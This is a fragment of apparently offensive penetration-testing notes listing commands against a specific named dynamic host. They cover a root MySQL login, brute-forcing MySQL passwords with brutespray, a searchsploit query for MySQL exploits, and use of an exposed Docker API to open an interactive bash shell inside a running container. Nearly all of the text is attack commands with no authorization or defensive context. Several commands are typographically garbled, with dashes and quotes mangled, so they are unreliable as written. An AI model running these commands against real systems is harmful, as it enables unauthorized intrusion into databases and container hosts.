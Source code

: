 ## SQL 3306
  - ```bash
    mysql -h 77.pool85–54–17.dynamic.orange.es -u root -P 3306
    Brute Spray:
    brutespray — file nmap-output.xml — service mysql — threads 5
    ```
  - search in metasploit
    ```
    searchsploit ‘mysql’|egrep ‘native|pass|auth|5.5’
    ```
# docker 2375
- ```bash
  docker -H 77.pool85–54–17.dynamic.orange.es:2375 ps
  Docker -H 77.pool85–54–17.dynamic.orange.es:2375 exec -it ‘limpid_agelast’ /bin/bash
  ```

